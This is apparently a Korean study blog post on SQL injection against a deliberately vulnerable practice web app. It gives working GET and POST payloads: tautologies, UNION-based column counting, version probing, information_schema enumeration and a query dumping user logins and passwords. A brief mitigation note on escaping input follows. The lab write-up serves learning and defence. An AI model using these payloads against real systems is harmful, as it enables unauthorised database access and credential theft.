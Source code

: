 ```yaml
---
layout: post
title: "Webhacking(SQL_Injection)"
date: 2021-01-01 09:44:00 +0900
background: "/img/posts/03.jpg"
categories: ["development"]
---
```


SQL_Injection
=============

SQL 인젝션은 사용자가 입력한 값을 서버에서 검증하지 않고 데이터베이스
쿼리 일부분으로인식하여 데이터베이스의 정보가 노출되거나 인증이 우회되는 
취약점이다. <br>
SQL 인젝션은 사용자가 데이터를 입력할 수 있는 곳 어디에서든 발생할 수 있다.

### GET/Search

* SQL 인젝션이 가능한지 확인
  > SELECT * FROM movies WHERE title LIKE ' ' ' <br>
==> ' 를 사용하는 이유 <br> :: 데이터베이스에서 작음따옴표로 문자데이터를
                              구분하기 떄문이다.

![SQL 인젝션 가능여부 확인](https://user-images.githubusercontent.com/76092057/103431891-ce5d1700-4c1a-11eb-9b66-b619954a55a3.PNG){: width:"100%" height:"100%"}

==> 오류 메세지에는 데이터베이스 서버 정보가 포함되는데, 데이터베이스
서버의 종류에 따라 SQL 구문이 다르므로 가장 먼저 서버 정보를 확인<br>
@@ 현재 : MySQL

* 쿼리를 입력하여 어떤 주석 문자를 사용하는지 확인 <br> ==> 쿼리 결과를 항상
참으로 만들고 기존 코드의 뒷부분을 주석 처리한다.

1. ' or 1=1--
2. ' or 1=1#

![SQL 쿼리 성공](https://user-images.githubusercontent.com/76092057/103432134-25182000-4c1e-11eb-8cab-69f34d819943.PNG){: width:"100%" height:"100%"}
@@ 결과 :: 첫번째 쿼리에서는 오류, 두번째 쿼리는 모든 영화 자료가 출력된다.


* 더 자세한 정보를 알아내기 위해 UNION SELECT 구문을 사용<br>
==> UNION :: SELECT 문이 둘 이상일 때 이를 결합하여 두 질의의 결과를
하나로 반환한다. (UNION Based SQL Injection)

> UNION SELECT ALL 1# <br>
==> UNION 구문을 사용하기 위해서는 SELECT 문의 칼럼수가 일치해야함

> ' UNION SELECT ALL 1,2,3,4,5,6,7# <br>
==> 칼럼을 계속 추가하여 확인

![SQL 인젝션 UNION 문](https://user-images.githubusercontent.com/76092057/103432258-b340d600-4c1f-11eb-9645-821ad117feab.PNG){: width:"100%" height:"100%"}

> 0' UNION SELECT ALL 1,@@version,3,4,5,6,7# <br>
==> MySQL 버전을 확인하기 위하여 시스템 변수나 시스템 함수를 활용하여 쿼리 입력,
페이지에 노출되는 칼럼은 2,3,4,5번에 위치함으로 이중 하나에 시스템 변수를 삽입

![SQL 인젝션 MySQL 버전 확인](https://user-images.githubusercontent.com/76092057/103432327-7aedc780-4c20-11eb-921d-2365db1547a9.PNG){: width:"100%" height:"100%"}

@@ 버전 : 5.0.96

* information_schema를 사용하여 테이블 명을 확인
  > 0' UNION SELECT ALL 1,table_name,3,4,5,6,7 from information_schema.tables# 

![SQL 인젝션 모든 테이블명](https://user-images.githubusercontent.com/76092057/103432398-81c90a00-4c21-11eb-842a-f34de5eb7b17.PNG){: width:"100%" height:"100%"}

* 출력한 정보를 토대로 users 테이블에 사용자 계정 정보가 들어있음을 추측, 
  where 절로 users 테이블 정보만 출력하게 조건을 지정한다.
  > 0' UNION SELECT ALL 1,column_name,3,4,5,6,7 from information_schema.columns where table_name='users'#

![SQL 인젝션 WHERE 문](https://user-images.githubusercontent.com/76092057/103432468-a4a7ee00-4c22-11eb-8254-66ca335473f2.PNG){: width:"100%" height:"100%"}

* 페이지에 노출된 칼럼 수보다 확인하려는 칼럼 수가 많을 때는 concat 함수를 사용
  > 0' UNION SELECT ALL 1,concat (id,login), password,email,secret,6,7 from users#

![SQl 인젝션 공격 성공(GET)](https://user-images.githubusercontent.com/76092057/103432520-7840a180-4c23-11eb-8886-8c04c9fc829e.PNG){: width:"100%" height:"100%"}

### 대응방안
![SQL 인젝션 대응방안(GET)](https://user-images.githubusercontent.com/76092057/103432541-c48be180-4c23-11eb-94c6-e6550a3c8d61.PNG){: width:"100%" height:"100%"}

작은따옴표(')를 입력하여도 오류 메세지가 나오지 않으면 SQL Injection 이 불가능하다.
PHP 기본 제공 함수인 mysql_real_escape_strings 함수를 사용하여 입력한 데이터를
우회한다. 이때 이 함수는 사용자 입력 값에 SQL 문법에서 사용하는 특수문자가 있을 경우
백슬래시를 붙여 입력 데이터를 SQl 문법으로 인식하지 않게 방어한다.

***
### POST/Search

==> 'sqli_6.php' 페이지는 POST 메서드로 HTTP 연결 요청을 보내고 있어서 sqli_1.php
페이지와는 다르게 URL에 변수가 나타나지 않는다. <br>
하지만 검색란에 사용되는 변수가 취약하다는 것은 전과 동일하다.

* Burp Suite를 사용하여 body에 실린 'title'과 'action'변수 둘 다 SQL인젝션 공격
  >title='&action=search

![SQL 인젝션 POST 버프스위트](https://user-images.githubusercontent.com/76092057/103433362-2738a980-4c33-11eb-8ef4-bab83ce1f78b.PNG){: width:"100%" height:"100%"}

* title 변수에 작은따옴표를 입력할 시 오류 메세지 출력, action 변수에 작은따옴표를 
  입력하면 오류메세지 x, 즉 SQL 인젝션에 취약한 변수는 title임을 알 수 있다.

![SQL 인젝션 POST 취약한 변수](https://user-images.githubusercontent.com/76092057/103433380-741c8000-4c33-11eb-940d-1fd96b7a2fa9.PNG){: width:"100%" height:"100%"}

* title 변수에 결과를 항상 참으로 만드는 구문 입력
  1. ' or 1=1--
  2. ' or 1=1#

@@ 1번 결과 :: 버전과 맞지 안흔 문법 오류 (주석문자는 '--'는 주석 기능을 하지 못한다.)

![SQL 인젝션 POST 주석문자](https://user-images.githubusercontent.com/76092057/103433466-9d89db80-4c34-11eb-89e2-9857c2d6a462.PNG){: width:"100%" height:"100%"}

@@ 2번 결과 :: 킬럼 수가 맞지 않는다는 오류

![SQL 인젝션 POST 주석문자 #](https://user-images.githubusercontent.com/76092057/103433512-74b61600-4c35-11eb-9256-219c52c7a1c2.PNG){: width:"100%" height:"100%"}


* 칼럼수를 확인하고 페이지에서 확인되지 않는 칼럼을 찾고, 데이터베이스의 버전을 확인한다
  > title=0' UNION SELECT ALL 1,2,3,4,5,6,7#action=search
  > 0' UNIKON SELECT 1,@@version,3,4,5,6,7#

![SQL 인젝션 POST 칼럼 확인](https://user-images.githubusercontent.com/76092057/103433559-4422ac00-4c36-11eb-8df5-8d66cebd64a0.PNG){: width:"100%" height:"100%"}

@@ 결과 :: 1,5,7 번째에 있는 칼럼은 페이지에서 확인 x

![SQL 인젝션 POST 버전 확인](https://user-images.githubusercontent.com/76092057/103433569-8a780b00-4c36-11eb-8651-788d259ffe67.PNG)

@@ 결과 :: MySQL 버전 5.0.96












